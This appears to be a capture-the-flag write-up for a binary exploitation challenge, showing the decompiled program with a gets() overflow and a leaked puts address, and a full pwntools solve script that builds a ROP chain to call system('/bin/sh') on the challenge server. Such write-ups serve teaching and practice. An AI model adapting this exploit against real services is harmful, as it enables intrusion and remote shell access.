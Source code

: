 ```yaml
---
description: Binary Exploitation
---
```


# Exploit 300 - Empress of What

> The first time I successfully built a ROP chain, I thought the guy teaching me was a wizard. It felt like Prometheus personally delivering fire to light up the room. I'm not sure why. Something about it is just so cool to me. Taking little bits and pieces and assembling your own narrative. It opened up a whole new world of possibilities. It's something I'm glad I get to share with my students every year, and something I'm glad I get to share with you now. Enjoy.

{% file src="../../.gitbook/assets/Exploit300-1" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Decompiled with Ghidra, and it looked like a very short challenge that only does two things: leak puts, and a buffer overflow vulnerability:

```c
void vulnerable_function(void)

{
  char local_48 [64];
  
  printf("Enter your input: ");
  gets(local_48);
  return;
}

void leak_function(void)

{
  printf("Leaking libc address of puts: %p\n",puts);
  return;
}

void win(char *param_1)

{
  printf("Running command: %s\n",param_1);
  system(param_1);
  return;
}

undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  leak_function();
  vulnerable_function();
  return 0;
}
```

The idea of this challenge relies on the puts address leak, allowing you to get the libc address for you to spawn a shell with. Now by using buffer overflow, I could return to the win function with `/bin/sh` as the parameter and get a shell that way.

Doing this in local was quite simple, but the only issue was getting the correct libc on remote. I used [https://libc.rip/](https://libc.rip/) to input the puts leak to get a list of possible libc files.

I tested each result one by one and landed with `libc6-amd64_2.31-13+deb11u11_i386.so` and it worked perfectly.&#x20;

Here's the final solve script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'Exploit300-1')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.123.210.162'
port = int(args.PORT or 32006)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# b *vulnerable_function+42
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

RIP_OFFSET = 72
POP_RDI = 0x000000000040127b
RET = 0x0000000000401016
WIN_FUNC = 0x0000000000401152

log.info(io.recvuntil(": "))
leak = int(io.recvline().strip(),16)

libc = ELF("./libc6-amd64_2.31-13+deb11u11_i386.so")
libc.address = leak - libc.symbols['puts']
log.info(f"Leak: {hex(libc.address)}")

binsh = next(libc.search(b"/bin/sh"))

payload = flat(
    cyclic(RIP_OFFSET,n=8),
    POP_RDI,
    binsh,
    RET,
    WIN_FUNC
)

io.clean()
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Here's an example of the solve using my local libc:

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
